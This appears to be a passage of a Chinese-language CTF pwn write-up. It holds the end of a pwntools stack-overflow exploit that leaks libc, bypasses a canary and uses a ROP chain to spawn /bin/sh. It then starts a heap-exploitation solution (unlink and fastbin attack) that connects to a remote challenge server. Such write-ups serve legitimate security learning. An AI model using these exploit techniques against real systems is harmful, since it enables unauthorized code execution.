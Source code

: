```python
ru('0x')
#libc = int(p.recv(12), base = 16)-0x3c56a3
libc = int(p.recv(12), base = 16) - 0x83 - 0x3a62a0
system = libc+0x1633e8
print(hex(base))
print(hex(puts))
print(hex(libc))
payload = 'a'*0x30+'\x00'*4+p64(canary)+'/bin/sh\x00'+p64(rdi_p)+p64(system)+p64(backdoor)
#payload = 'a'*0x30+'\x00'*4+p64(canary)+'/bin/sh\x00'+p64(backdoor)
sl(payload)
p.interactive()

```

### 洛诵

这题给的libc是2.27，但是实际还是2.19的libc，因此直接leak libc+heap的地址，然后unlink一波，之后fastbin attack即可

```python
from pwn import *

debug=0
context.log_level='debug'


if debug:
    p=process('./mybooks',env={'LD_PRELOAD':'./libc.so.6'})
    gdb.attach(p)
else:
    p=remote('111.33.164.6', 50002)

def ru(x):
    return p.recvuntil(x)
    
def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

def add(name,sz,desc):
    sl('1')
    ru('Enter book name (Max 24 chars):')
    se(name)
    ru('Enter desc size:')
    sl(str(sz))
    ru('Enter book description: ')
    se(desc)
    ru('>')

def edit(idx,name,desc):
    sl('3')
    ru('Enter the book id you want to edit: ')
    sl(str(idx))
    ru('name: ')
    se(name)
    ru('Enter new book description: ')
    se(desc)
    ru('>')

def delete(idx):
    sl('2')
    ru('delete: ')
    sl(str(idx))
```